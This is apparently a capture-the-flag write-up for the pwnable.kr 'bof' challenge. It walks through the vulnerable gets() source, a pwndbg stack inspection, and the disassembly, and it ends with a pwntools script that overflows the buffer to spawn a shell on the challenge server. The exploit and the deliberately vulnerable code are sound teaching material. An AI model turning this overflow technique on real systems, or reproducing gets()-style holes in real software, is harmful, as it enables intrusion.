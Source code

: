 ![logo](http://www.pwnable.kr/img/bof.png)

# bof
The third challenge from pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : `nc pwnable.kr 9000`

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Immediately you can notice that this is a buffer overflow due to the use of insecure gets(), which doesn't specify a buffer limit.

We need to overwrite the variable `key` so that it equals `0xcafebabe` in order to get `/bin/sh` access.

`key` is a parameter in this function and it's set to `0xdeadbeef`, so let's open up pwndbg to find that on the stack and figure out the length of our padding.

`pwndbg ./bof`

```
pwndbg> b gets
Breakpoint 1 at 0x4c0
pwndbg> r
Starting program: /home/ctf/challenges/bof/bof
overflow me :

Breakpoint 1, 0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
```

```
pwndbg> finish
Run till exit from #0  0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
aaaaaaaaaaaaaaaa
```

```
pwndbg> x/100x $esp
0xffaf6040:	0xffaf605c	0x00000000	0x000000c2	0xf75f7d56
0xffaf6050:	0xffffffff	0xffaf607e	0xf756dc34	0x61616161
0xffaf6060:	0x61616161	0x61616161	0x61616161	0x56585400
0xffaf6070:	0xffaf788f	0x0000002f	0x56586ff4	0x5799de00
0xffaf6080:	0x565856b0	0x56585530	0xffaf60a8	0x5658569f
0xffaf6090:	0xdeadbeef	0xf7743000	0x565856b9	0xf770e000
```

We can see by examining, in hex representation, that our target is 52 bytes away from the start of our input, a = 0x61

Let's pad 52 bytes then add 0xcafebabe.

```python
from pwn import *

conn = remote('pwnable.kr', 9000)

p = 'a'*52
p += p32(0xcafebabe)

conn.sendline(p)

conn.interactive()
```

# Solution Revisions

Upon dissembling bof and inspecting function `func`, we can more precisely pad our overflow.

```Disassembly
0000062c <func>:
 62c:	55                   	push   %ebp
 62d:	89 e5                	mov    %esp,%ebp
 62f:	83 ec 48             	sub    $0x48,%esp
 632:	65 a1 14 00 00 00    	mov    %gs:0x14,%eax
 638:	89 45 f4             	mov    %eax,-0xc(%ebp)
 63b:	31 c0                	xor    %eax,%eax
 63d:	c7 04 24 8c 07 00 00 	movl   $0x78c,(%esp)
 644:	e8 fc ff ff ff       	call   645 <func+0x19>
 649:	8d 45 d4             	lea    -0x2c(%ebp),%eax
 64c:	89 04 24             	mov    %eax,(%esp)
 64f:	e8 fc ff ff ff       	call   650 <func+0x24>
 654:	81 7d 08 be ba fe ca 	cmpl   $0xcafebabe,0x8(%ebp)
 65b:	75 0e                	jne    66b <func+0x3f>
 65d:	c7 04 24 9b 07 00 00 	movl   $0x79b,(%esp)
 664:	e8 fc ff ff ff       	call   665 <func+0x39>
 669:	eb 0c                	jmp    677 <func+0x4b>
 66b:	c7 04 24 a3 07 00 00 	movl   $0x7a3,(%esp)
 672:	e8 fc ff ff ff       	call   673 <func+0x47>
 677:	8b 45 f4             	mov    -0xc(%ebp),%eax
 67a:	65 33 05 14 00 00 00 	xor    %gs:0x14,%eax
 681:	74 05                	je     688 <func+0x5c>
 683:	e8 fc ff ff ff       	call   684 <func+0x58>
 688:	c9                   	leave
 689:	c3                   	ret
```

A buffer of size 0x2c is created with the `lea    -0x2c(%ebp),%eax` instruction.

Adding another 8 bytes to overflow $ebp and saved $eip would give us the correct size of our buffer.


### Capturing the Flag

```sh
(ctftools)ctf@b1b157128929:~/challenges/bof$ python exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
